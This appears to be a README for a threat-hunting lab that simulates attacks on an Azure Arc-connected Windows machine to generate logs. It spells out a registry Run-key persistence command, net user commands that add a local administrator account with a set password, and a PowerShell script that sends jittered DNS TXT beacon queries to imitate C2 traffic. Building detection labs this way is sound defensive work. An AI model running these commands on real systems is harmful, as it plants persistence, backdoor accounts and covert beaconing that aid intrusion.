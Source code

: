![GitHub Logo](https://media-hosting.imagekit.io//624976c3677e4fbc/attack.png?Expires=1835504095&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=ECl9MXShcMnnOJbrW86dwFt6XH~GN2UDRVLCWTHqBtOamYtWHL~zmdHdiJfpt4O2a18spjuCX9kmpW5ofW02urY-p1iREhBJ4wj77xqwePjIat-SHf74LT8EJiC8fsUwLiGHuy~Zh0jeN4FGfN~OB26xDop~2jLlbX1ZEelhlA3kTQUwATBtyug-uaJnXGO~wQkWRD8o-QRPj1TbYXI6GZhaAIMJjVFMQeM-5nekGSXsjlw5ThyJF8~3VHhq0Hz7Y7BeRshIADoHzolnXRFKuIi09h~sWkpDcNM5RhANfFBvGKDi1p454wS382NLOfbtuuLGkpLerseiSexNsieG0g__)


# Persistence atack with registry key addition
In order to perform the task, I had previously connected my machine with Azure Arc. So, it is a mciahine with Azure Arc connected that has Azure monitor agent configured
1. Created a temp folder file in the root directory with
- _cd \
mkdir temp
cd temp_

2. Ran the command below to simulate program persistance: REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"


## Privilege Elevation Attach with User Aggregation
This command help to simulate the creation of administrator account
- net user theusernametoadd /add
- net user theusernametoadd ThePassword1!
- net localgroup administrators theusernametoadd /add
![GitHub Logo](https://media-hosting.imagekit.io//2b35beed32864efc/temp%20folder%20and%20command%20for%20persistent%20program%20simulation%20and%20priviledge%20elevation%20attack%20with%20user%20add.png?Expires=1835505576&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=sskFKv6PEXJUY4ptxQM1u1p0CyOXrd8BNTcWqb6F9Ll8kNF3FURzm6WUJl9MwGKl3xe11we2CDtZjR1qTNSY7Kxu6HnAYlPySjZoVhc~-W58mWV892pFFbqSOAvQkkJgAfn07iQG6~~6XwuN1MHn669ICiIY~4XTPMT69vUL7APrPJ3-i7VhZyf1H9m7Y4iuag8WOivlrtdXA2jQzNa04v44ESz-0GYPxSfQmmvaU04ye3pxnr4AlIC6DOED1UlbiJrLX89XuExY4vr6rF1ZOlRYNjnQ28d7viq9AjLMVG81jtY~5huVmhnPCkUP8fR04FjvC~1tz0vYmlS1VDf4gg__)

### Command and control attack with DNS
- I ran this command to create a scirpt that will simulate a DNS query on a C2 server
- param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
    [int]$C2Interval = 8,
    [int]$C2Jitter = 20,
    [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
- From the notepad page that was opened automatically, seect file, then save.
- I ran the powershell command  _Start PowerShell.exe -file c2.ps1_ in command prompt
-  I allow this PowerShell script to run in the background. It generated log entries for a few hours. The data created by this task was used in the threat hunting lab.

